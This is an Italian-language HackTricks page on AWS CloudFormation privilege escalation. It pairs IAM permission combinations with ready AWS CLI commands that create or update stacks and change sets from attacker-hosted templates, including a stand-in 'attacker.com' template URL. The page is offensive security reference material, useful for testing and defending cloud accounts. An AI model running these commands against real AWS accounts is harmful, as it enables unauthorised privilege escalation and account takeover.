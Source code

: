 # AWS - Escalazione dei privilegi di Cloudformation

{% hint style="success" %}
Impara e pratica l'Hacking su AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

## cloudformation

Per ulteriori informazioni su cloudformation controlla:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Un attaccante con queste autorizzazioni **può escalare i privilegi** creando uno **stack di CloudFormation** con un modello personalizzato, ospitato sul proprio server, per **eseguire azioni sotto i permessi di un ruolo specificato:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Nella seguente pagina hai un **esempio di sfruttamento** con il permesso aggiuntivo **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Impatto Potenziale:** Escalation dei privilegi al ruolo di servizio cloudformation specificato.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In questo caso puoi **abusare di uno stack cloudformation esistente** per aggiornarlo ed escalare i privilegi come nello scenario precedente:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
La permissione `cloudformation:SetStackPolicy` può essere utilizzata per **conferire a te stesso il permesso `UpdateStack`** su uno stack e eseguire l'attacco.

**Impatto Potenziale:** Privesc al ruolo di servizio di cloudformation specificato.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Se hai questa permissione ma **non hai `iam:PassRole`** puoi comunque **aggiornare gli stack** utilizzati e abusare dei **Ruoli IAM a cui sono già collegati**. Controlla la sezione precedente per un esempio di exploit (basta non indicare alcun ruolo nell'aggiornamento).

La permissione `cloudformation:SetStackPolicy` può essere utilizzata per **conferire a te stesso il permesso `UpdateStack`** su uno stack e eseguire l'attacco.

**Impatto Potenziale:** Privesc al ruolo di servizio di cloudformation già collegato.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Un attaccante con permessi per **passare un ruolo e creare ed eseguire un ChangeSet** può **creare/aggiornare un nuovo stack di cloudformation abusando dei ruoli di servizio di cloudformation** proprio come con CreateStack o UpdateStack.

L'exploit seguente è una **variazione di quello del** [**CreateStack**](./#iam-passrole-cloudformation-createstack) utilizzando i **permessi ChangeSet** per creare uno stack.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Il permesso `cloudformation:SetStackPolicy` può essere utilizzato per **conferirti i permessi `ChangeSet`** su uno stack e eseguire l'attacco.

**Impatto Potenziale:** Privesc ai ruoli di servizio di cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Questo è simile al metodo precedente senza passare **ruoli IAM**, quindi puoi semplicemente **abusare di quelli già allegati**, basta modificare il parametro:
```
--change-set-type UPDATE
```
**Impatto Potenziale:** Privesc al ruolo di servizio cloudformation già collegato.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Un attaccante potrebbe abusare di queste autorizzazioni per creare/aggiornare StackSets per abusare di ruoli cloudformation arbitrari.

**Impatto Potenziale:** Privesc ai ruoli di servizio cloudformation.

### `cloudformation:UpdateStackSet`

Un attaccante potrebbe abusare di questa autorizzazione senza l'autorizzazione passRole per aggiornare StackSets per abusare dei ruoli cloudformation collegati.

**Impatto Potenziale:** Privesc ai ruoli cloudformation collegati.

## Riferimenti

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Impara & pratica l'Hacking su AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara & pratica l'Hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>
{% endhint %}
